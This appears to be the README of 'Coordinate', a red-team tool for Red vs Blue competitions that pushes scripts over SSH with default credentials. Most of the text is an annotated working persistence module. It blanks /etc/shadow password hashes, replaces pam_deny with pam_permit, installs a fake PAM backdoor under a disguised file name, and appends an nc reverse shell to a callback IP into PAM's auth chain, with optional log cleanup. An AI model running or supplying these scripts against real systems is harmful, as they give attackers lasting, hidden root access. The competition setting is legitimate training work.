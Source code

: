 # Coordinate

Red team automation tool that runs many scripts in parallel on many remote boxes, assuming that you know the default creds. This is useful for deploying persistence mechanisms at minute zero in Red vs Blue competitions.

# Configuration

There are two parts to Coordinate-- the first is the config (`coordinate.toml`), which specifies targets, default creds, and modules to employ. 

The second part is the modules, which contain the scripts and logic to run through Coordinate.

Here is an configuration example for `coordinate.toml`:

```toml
NoTTY = false
ConnectionsPerBox = 1 # default to 3
# One callback IP/hostname  be randomly chosen every time we drop one
CallBackIps = ["192.168.1.12","hackerbox"] 

[[target]]

# Which IPs/hostnames and which modules to run on them
Ips = ["192.168.140.138","172.17.156.129"]
Modules = ["STARFOX",]

# Optional, will enable log deletion/cleanup/avoidance of noisy techs
Stealthy = true 

# Optional, will enable troll/annoying actions
Annoying = true 

# "Difficulty" level, default 0. Range 0-5 where lower is more difficult
Level = 3   

# Username and password combinations. Every permutation will be tried.
Username = ["root", "bob"] # User must be root or sudoer
Password = ["Password1!", "Password2@"]

[[target]]
Ips = ["10.20.X.11","10.20.X10.13"]
ReplaceX = "3-5" # if you have an X in the above, iterate through range here
Modules = ["ireul",]
Username = ["root", "vpxuser", "dcui"]
Password = ["Password1!",]

[[module]]
Name = "STARFOX"
Debug = true

[[module]]
Name = "ireul"
Enabled = ["trojan_hostd",]
```

# Modules

For Coordinate to work, the modules must be structured in a certain way. First, the name of the module passed must be the same as a folder at the same level of Coordinate. For example, if my module was `STARFOX`, our file struture might be something like:

```bash
├── coordinate
│   ├── coordinate
│   ├── coordinate.go
│   ├── coordinate.toml
│   ├── go.mod
│   ├── go.sum
│   ├── LICENSE
│   ├── output.go
│   ├── README.md
│   └── ssher.go
├── ireul
│   ├── backdoor.sh
│   ├── fake-passwd.sh
│   ├── LICENSE
│   ├── README.md
│   └── vmware-hostd.sh
└── STARFOX
    ├── drops
    │   └── fake_pam.c
    ├── iptables.sh
    ├── pam.sh
    └── README.md
```

The second assumption is that any module scripts will end in `.sh`. That's it for structure. 

Onto module contents. The name of each module is the name of the file without `.sh`. For logic, there is no persistent state across files or across modules. Every file is interpreted at the same time it's executed. With that in mind, let's take a look at what `pam.sh` might look like:

```bash
# This is metadata about the file. DESC has no impact on the execution of the file, since it's not a keyword, and thus acts like any other comment.
#DESC wrecks pam lol

# Any line starting with an octothorpe (#) without being a directive
# is treated as a comment, like this line.

# LEVEL specifies how "difficult" this mechanism is to detect and counter, 
# so that a red teamer may be able to scale back the difficulty of the techs 
# they're deploying. Lower is more difficult, where 0 is incredibly tough 
# (e.g., well written rootkit) and 5 is trivial (e.g., added user).
# This defaults to 0 if it is not specified.
#LEVEL 2

# These are the commands actually executed. In this case, it is removing the 
# "passwords" for locked accounts, and permitting empty passwords in PAM's
# common-auth file for Debian-based systems.
sed -ie "s/*//g" /etc/shadow
sed -ie "s/\!//g" /etc/shadow
cp -f /bin/bash /bin/false
cp -f /bin/bash /usr/sbin/nologin

if [ -d "/etc/pam.d/common-auth" ]; then
    sed -ie "s/nullok_secure/nullok/g" /etc/pam.d/common-auth
fi

# Let's say that you have multiple ways to accomplish some task, e.g., 
# circumventing PAM authentication. Roulettes will allow you to randomly
# select one of these techniques to execute. Sinci the script is interpreted
# line by line, this directive must also include how many roulette options there
# are. Alternatively, you can use the #ROLL directive to have a 1-in-X chance
# of running some block, which is another type of roulette.
#STARTROULETTE 3
#ROULETTE

# These commands allow authentication and substituting users if it's to the
# root account.
sed -ie "s/pam_rootok.so/pam_permit.so/g" /etc/pam.d/common-auth
sed -ie "s/pam_rootok.so/pam_permit.so/g" /etc/pam.d/su

#ROULETTE

# Instead of denying unsuccessful PAM authentication attempts, permit them.
sed -ie "s/pam_deny.so/pam_permit.so/g" /etc/pam.d/common-auth

#ROULETTE

# Replace pam_deny.so with pam_permit.so for Debian-based systems
cp -f /lib/x86_64-linux-gnu/security/pam_permit.so \
    /lib/x86_64-linux-gnu/security/pam_deny.so

# This signifies the end of the roulette sections.
#ENDROULETTE

# With this ROLL, we will have a 1-in-3 chance to run that block.
#ROLL 3
# Let's say that you've written code for a fake PAM shared object that allows
# one master password, as a backdoor. You can drop files with the #DROP 
# directive. This assumes that your files are within $MODULE_PATH/drops.
#DROP fake_pam.so /tmp/systemd-cache

# Which you can then interact with using normal commands on the remote system.
gcc /tmp/systemd-cache -o /tmp/systemd-cache-compiled
cp -f /tmp/systemd-cache-compiled /lib/x86_64-linux-gnu/security/pam_unix.so

# This ends the #ROLL block.
#ENDROULETTE

# If you want to see the output of a command, you can tell Coordinate to wait
# for it with the #OUTPUT directive.
#OUTPUT cat /etc/os-release

# If you want to take some conditional action based on the output of a command,
# but you want it to affect meta-tags/directives, you can use IFCMD. This is
# slower than using native if/else/fi within the shell.
#IFCMD cat /etc/password | grep "bob"

# You can print to the terminal with "red" or negative messages, or "green" or
# positive messages.
#PRINT_RED Bob is still on their system!

# Again, unlike native execution control, these directives control whether or
# not Coordinate will process a directive. In this example, if the string 'bob'
# is found in /etc/passwd, Coordinate will print the red message above. 
# Otherwise, it will print the message below.
#ELSE

#PRINT_GREEN Bob has been removed! Good job blue team!

#ENDIF

# If you wanted to drop a callback/reverse shell script, you can use the text 
# '#CALLBACK_IP' and Coordinate will replace it with a configured callback IP.
echo "auth required pam_exec.so nc #CALLBACK_IP 4444 -e /bin/bash" >> \
    /etc/pam.d/common-auth
```
